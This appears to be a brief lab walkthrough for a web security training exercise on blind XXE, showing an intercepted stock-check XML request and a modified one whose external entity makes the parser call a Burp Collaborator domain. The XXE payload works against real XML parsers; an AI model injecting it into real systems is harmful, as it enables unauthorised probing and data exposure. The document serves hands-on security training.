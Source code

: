 # Blind XXE with out-of-band interaction

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## You can detect the [blind XXE] vulnerability by triggering out-of-band interactions with an external domain.

## To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### step1

interept check stock feature and send to Reapeter

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

go burp collaborator copy to clipboard
dk1jaxnj44bf3s73s2kgyu46bxho5et3.oastify.com
add http://
http://dk1jaxnj44bf3s73s2kgyu46bxho5et3.oastify.com

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://k1mqr44qlbsmkzoa991nf1lds4yvmmab.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

